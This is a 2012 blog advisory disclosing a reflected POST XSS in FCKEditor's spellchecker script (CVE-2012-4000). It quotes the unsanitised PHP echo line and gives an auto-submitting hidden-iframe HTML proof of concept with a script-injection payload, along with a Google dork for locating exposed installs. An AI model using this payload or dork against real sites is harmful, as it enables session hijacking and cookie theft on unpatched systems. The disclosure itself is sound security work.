```yaml
---
comments: true
date: 2012-06-22 09:58:30
layout: post
slug: fckeditor-reflected-xss-vulnerability
title: FCKEditor reflected XSS vulnerability
wordpress_id: 1599
categories:
- Security
- Vulnerabilities
- Web Apps
tags:
- CVE-2012-4000
- advisory
- ckeditor
- csrf
- fckeditor
- pentesting
- security
- xss
---
```



I recently found a reflected POST XSS on a popular web WYSIWYG editor called FCKEditor. Despite is almost end-of-life and replaced with [CKEditor](http://ckeditor.com/) since 2009, FCKEditor is still popular as stand-alone application as embedded in different Wordpress/Joomla/Drupal extensions. 

Today the 2012-06-22, Google counts more than **1,5 billion** of results. A plausbile Google dork filtering out PHP sources could be

[inurl:fck_spellerpages/spellerpages/server-scripts/ -"The following variables"](https://www.google.it/search?q=inurl%3Afck_spellerpages%2Fspellerpages%2Fserver-scripts%2F+-%22The+following+variables%22)

##  vulnerability 

The reflected XSS is injected through `textinputs` POST parameter array, not sanized and printed in line 27:

```php
echo "textinputs[$key] = decodeURIComponent(\"" . $val . "\");\n";
```

As usual, attackers can exploit the reflected XSS to execute arbitrary HTML and script code in a user's browser session that visit the malicious page, which can be exploited to e.g. steal the cookie of the legitimate user to bypass the CMS authorization. The PoC is CRSF-like due to POST HTTP method. 

```html
<html>
<body>
<iframe style="width: 1px; height: 1px; visibility: hidden" name="hidden"></iframe>
  <form method="post" name="sender"
   action="http://vuln.com//fckeditor/editor/dialog/fck_spellerpages/spellerpages/server-scripts/spellchecker.php" target="hidden">
   <input type="hidden" name="textinputs[]" value='");alert("THIS SITE IS XSS VULNERABLE!");</script><!--' />
  </form>
</body>
<script>document.sender.submit(); </script>
</html>
``` 

## CVE

The Common Vulnerabilities and Exposures project (cve.mitre.org) has assigned the name [CVE-2012-4000](http://www.cve.mitre.org/cgi-bin/cvename.cgi?name=2012-4000) to the vulnerability
